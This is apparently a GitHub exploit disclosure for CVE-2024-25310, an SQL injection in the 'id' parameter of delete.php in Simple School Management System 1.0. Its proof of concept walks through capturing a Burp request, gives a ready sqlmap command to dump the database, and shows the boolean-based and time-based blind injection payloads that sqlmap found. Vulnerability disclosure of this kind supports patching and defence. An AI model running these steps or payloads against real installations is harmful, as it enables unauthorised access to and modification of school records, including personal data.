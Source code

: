 # CVE-2024-25310 - Simple School Managment System - SQL Injection - 3
+ **Exploit Title:** Simple School Managment System - SQL Injection - 3
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-25310

## Description:
Simple School Managment System 1.0 allows SQL Injection via the 'id' parameter at "School/delete.php?id=5". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/School/index.php"
+ Login in
+ Click the class button
+ Then click delete-class button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /School/delete.php?id=5 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/School/add_class.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hidk6npo6f802og8sqcir2veul
Connection: close
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id=(SELECT (CASE WHEN (3907=3907) THEN 5 ELSE (SELECT 1166 UNION SELECT 1839) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=5 AND (SELECT 1380 FROM (SELECT(SLEEP(5)))hKjH)
---
[04:48:48] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[04:48:48] [INFO] fetching current database
[04:48:48] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[04:48:48] [INFO] retrieved: school
current database: 'school'


```
+ current database: `school`

![Ekran görüntüsü 2024-02-01 135203](https://github.com/tubakvgc/CVEs/assets/74067343/a613136a-7054-4af9-9b4d-b9bd106b1a1b)

